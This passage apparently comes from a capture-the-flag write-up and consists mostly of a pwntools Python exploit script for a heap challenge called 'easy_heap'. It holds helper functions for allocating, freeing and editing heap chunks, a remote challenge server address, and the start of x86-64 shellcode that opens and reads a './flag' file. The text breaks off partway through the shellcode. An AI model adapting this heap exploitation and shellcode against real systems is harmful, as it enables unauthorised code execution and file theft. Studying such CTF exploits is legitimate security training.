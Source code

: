 ![attack](./5.png)

### x3h1n.py

```py
from pwn import *

context.log_level = "debug"
context.terminal = ["tmux","split",'-h']
context.update(arch='amd64',os='linux')

DEBUG = 1

if DEBUG:
   p = process("./easy_heap")
   libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

else:
   p = remote("132.232.100.67",10004)
   libc = ELF("./libc.so.6")

def add(size):
   p.recvuntil(">> ")
   p.sendline('1')
   p.recvuntil("Size: ")
   p.sendline(str(size))
   p.recvuntil("Address ")
   heap_ptr = int(p.recvuntil("\n",drop=True),16)
   print hex(heap_ptr)
   return heap_ptr

def delete(idx):
   p.recvuntil(">> ")
   p.sendline('2')
   p.recvuntil("Index: ")
   p.sendline(str(idx))

def edit(idx,data):
   p.recvuntil(">> ")
   p.sendline('3')
   p.recvuntil("Index: ")
   p.sendline(str(idx))
   p.recvuntil("Content: ")
   p.send(data)


code = """
        xor rsi,rsi
        mov rax,SYS_open
        nop
        nop
        call here
        .string "./flag"
        here:
        pop rdi
        syscall
        mov rdi,rax
        mov rsi,rsp
        mov rdx,0x100
        mov rax,SYS_read
        syscall
        mov rdi,1
        mov rsi,rsp
```